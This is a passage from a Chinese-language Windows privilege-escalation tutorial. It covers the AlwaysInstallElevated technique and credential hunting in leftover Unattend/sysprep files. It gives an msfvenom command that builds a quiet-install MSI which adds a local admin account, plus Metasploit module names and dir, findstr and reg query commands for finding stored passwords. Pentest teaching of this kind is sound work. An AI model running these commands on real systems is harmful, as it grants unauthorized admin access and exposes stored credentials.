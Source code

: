 然后我们使用msfvenom生成msi文件，进行提权

```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o rotten.msi

msiexec /quiet /qn /i C:\programdata\rotten.msi
# /quiet    安装过程中禁止向用户发送消息
# /qn       不使用GUI
# /i        安装程序
```

```bash
msf下的自动模块
exploit/windows/local/always_install_elevated
```

#### 3.2.3 Unattended Installs

自动安装允许程序在不需要管理员关注下自动安装。这种解决方案用于在拥有较多雇员和时间紧缺的较大 型组织中部署程序。如果管理员没有进行清理的话，那么会有一个名为Unattend的XML文件残存在系统上。 这个XML文件包含所有在安装程序过程中的配置，包括一些本地用户的配置，以及管理员账户。

全盘搜索Unattend文件是个好办法，它通常会在以下一个文件夹中：

```makefile
C:\Windows\Panther\ 
C:\Windows\Panther\Unattend\ 
C:\Windows\System32\ 
C:\Windows\System32\sysprep\
```

除了Unattend.xml文件外，还要留意系统中的sysprep.xml和sysprep.inf文件，这些文件中都会包含部署操作 系统时使用的凭据信息，这些信息可以帮助我们提权。

```bash
C:\Users\user\Desktop> dir C:*vnc.ini /s /b /c
```

```bash
#或者在名称中包含关键词的项目：
C:\Users\user\Desktop> dir C:\ /s /b /c | findstr /sr *password*

#或者可以在文件内容中搜索password之类的关键字：
C:\Users\user\Desktop>findstr /si password *.txt | *.xml | *.ini

#可以查询注册表，例如，字符串password：
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

在这些文件中通常包含用户名和密码，密码使用base64编码，并且在最后会附加”Password”，所以真正的密 码需要去掉最后的”Password”。

```bash
#msf模块
post/windows/gather/enum_unattend
```

![](https://minioapi.nerubian.cn/image/20250410152618937.png)

### 3.3 常用系统漏洞CVE
